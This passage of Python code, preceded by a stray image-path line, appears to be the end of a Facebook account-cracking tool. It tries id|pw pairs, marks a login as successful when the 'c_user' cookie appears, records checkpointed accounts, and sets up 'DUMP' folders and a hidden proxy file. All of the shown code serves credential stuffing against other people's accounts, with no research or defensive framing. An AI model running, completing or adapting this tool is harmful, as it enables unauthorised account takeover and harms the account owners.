 					print('\r%s---> Cannot Check Options%s'%(u,x))
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\r%s++++ %s|%s ----> t       %s'%(h,id,pw,x))
			else:
				print('\r%s++++ %s|%s ----> ERROR       %s'%(x,id,pw,x))
			love+=1
		except requests.exceptions.ConnectionError:
			print('')
			li = '#INTERNET NO CONNECTED'
			sol().print(mark(li, style='red'))
			exit()
	dah = '# SHRUOD'
	sol().print(mark(dah, style='pink'))
	exit()



if __name__=='__main__':
	try:os.mkdir('t')
	except:pass
	try:os.mkdir('f')
	except:pass
	try:os.mkdir('DUMP')
	except:pass
	try:os.system('touch .prox.txt')
	except:pass
	menu()
